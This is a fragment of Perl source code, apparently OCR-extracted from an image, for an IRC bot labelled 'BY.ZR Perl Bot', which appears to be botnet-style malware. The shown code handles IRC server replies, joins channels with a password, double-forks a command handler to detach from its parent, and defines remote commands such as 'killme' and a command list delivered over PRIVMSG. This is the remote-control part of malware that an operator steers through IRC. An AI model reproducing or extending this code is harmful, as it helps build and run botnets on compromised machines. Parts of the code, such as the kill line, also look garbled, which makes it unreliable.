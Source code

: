       } 

   } elsif ($servarg =~ m/^\:(.+?)\s+433/i) { 

      nick("$meunick|".int rand(999999)); 

   } elsif ($servarg =~ m/^\:(.+?)\s+001\s+(\S+)\s/i) { 

      $meunick = $2; 

      $irc_servers{$IRC_cur_socket}{'nick'} = $meunick; 

      $irc_servers{$IRC_cur_socket}{'nome'} = "$1"; 

      foreach my $canal (@canais) { 

         sendraw("JOIN $canal $chanpass"); 

      } 

   } 

} 

  

sub bfunc { 

   my $printl = $_[0]; 

   my $funcarg = $_[1]; 

   if (my $pid = fork) { 

      waitpid($pid, 0); 

   } else { 

      if (fork) { 

         exit; 

      } else { 

  

         if ($funcarg =~ /^killme/) { 

            sendraw($IRC_cur_socket, "QUIT :"); 

            $killd = "kill -9 ".fork; 

            system (`$killd`); 

         } 

###################### 

#                    Commands                      # 

###################### 

         if ($funcarg =~ /^commands/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@9-[BY.ZR Perl Bot Commands List]-14@4] "); 

